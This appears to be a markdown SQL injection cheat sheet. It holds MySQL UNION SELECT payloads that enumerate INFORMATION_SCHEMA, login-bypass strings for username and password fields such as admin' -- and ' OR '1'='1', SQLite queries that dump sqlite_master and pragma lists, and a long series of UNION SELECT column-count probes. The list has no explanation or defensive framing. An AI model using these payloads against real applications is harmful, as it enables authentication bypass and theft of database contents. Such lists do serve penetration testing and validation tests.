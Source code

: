# SQLi 
Command characters are (#, /**/, ;, —)

We can use the following code to make it true

("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

#### 0+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
#### 0+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
#### 0+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
#### 0+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()
..............................................................................

user=admin' ;&pass=a 

user=admin' --&pass=a

user=admin' /*&pass=a

adm'||'in &Pass=' glob '*

user=ad'||'min'%00&pass=a

user=1' OR '1'='1%00&pass=a

user=admin' OR '1'='1';&pass=a

user=admin' OR '1'='1'--&pass=a

user=admin' OR '1'='1'/*&pass=a

user=admin&pass=a'/**/IS/**/NOT/**/'b

user='admi'||CHAR(' AND pass='-0+110)||''

user=adm' ||   trim('in', Password: )  || '&pass=a

user=admin' union select * from users where '1&pass=a

user=' union select * from users where username in("admin")/*&pass=a

user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a

User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

'union select sqlite_version() -- -

123' UNION SELECT 1, sqlite_version(), 3;--

' UNION SELECT table_name FROM sqlite_master --

123' UNION SELECT name, sql, null from sqlite_master;--

' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --

'UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --

' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --

' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --

' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --

' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --

' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --

' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
.....................................................................................................................

' UNION SELECT NULL --

' UNION SELECT 1 --

' UNION SELECT 'a' --

' UNION SELECT 'a', 'b' --

' UNION SELECT 'a', 'b', 'c' --

' UNION SELECT 'a', 'b', 'c', 'd' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --

' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --

